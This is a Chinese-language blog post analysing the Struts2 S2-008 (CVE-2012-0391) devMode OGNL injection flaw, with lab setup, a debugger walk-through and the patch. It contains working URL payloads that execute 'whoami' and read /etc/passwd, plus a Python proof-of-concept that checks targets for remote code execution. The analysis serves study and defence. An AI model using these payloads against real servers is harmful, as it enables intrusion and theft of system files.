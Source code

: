```yaml
---
layout: post
title: "S2-008"
subtitle: 'S2-008漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第五篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-008漏洞,又名CVE-2012-0391漏洞.

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-008)

#### 漏洞成因

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.17

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29
```

#### 读取文件

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%29%29
```

### POC

```python
#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_008_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-008漏洞,又名CVE-2012-0391漏洞',
            'description': 'Struts2 S2-008漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.17',
            'date': '2012-01-02',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
                self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/devmode.action'
        self.capta = self.get_capta() 
        self.check_payload =  '?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27''' + urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8') + '''%27%29.getInputStream%28%29%29%29'''
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.check_payload
            check_res = requests.get(check_url)
            if check_res.status_code == 200 and len(check_res.text) < 50 and self.capta in check_res.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_008 = S2_008_BaseVerify('http://localhost:8080/s2_008_war_exploded/')
    S2_008.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](https://taomujian.github.io/img/S2-008/images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.Struts2框架存在一个devmode模式,方便开发人员调试程序,但是默认devmode是不开启的,如果想要使用,需要手动修改参数.可以将struts.properties中的devmode设置为true,或是在struts.xml中添加如下代码.

> <constant name="struts.devMode" value="true" /> 

![debug](https://taomujian.github.io/img/S2-008/images/debug.png)

&emsp;&emsp;&emsp;&emsp;2.问题出现在/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/interceptor/debugging/DebuggingInterceptor.class:87函数内,在95行打断点,获取get中的debug参数的值command.

![type](https://taomujian.github.io/img/S2-008/images/type.png)

&emsp;&emsp;&emsp;&emsp;3.继续往下执行代码,通过if判断语句进入command分支,取得command参数的值

![command](https://taomujian.github.io/img/S2-008/images/command.png)

![get_command](https://taomujian.github.io/img/S2-008/images/get_command.png)

&emsp;&emsp;&emsp;&emsp;4.继续往下执行,通过statck.findValue即可执行OGNL表达式,造成代码执行.

![final](https://taomujian.github.io/img/S2-008/images/final.png)

## 漏洞修复

> 加强了对于参数的正则匹配

```java

ParametersInterceptor.class

private String acceptedParamNames = "[a-zA-Z0-9\\.\\]\\[\\(\\)_']+";

CookieInterceptor.class

private static final String ACCEPTED_PATTERN = "[a-zA-Z0-9\\.\\]\\[_'\\s]+";
```

## 总结

> struts2漏洞的精髓在ongl表达式......,自从S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞后.之后漏洞都需要利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true,然后再执行payload.

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://blog.csdn.net/Fly_hps/article/details/85001659

> http://drops.xmd5.com/static/drops/papers-902.html

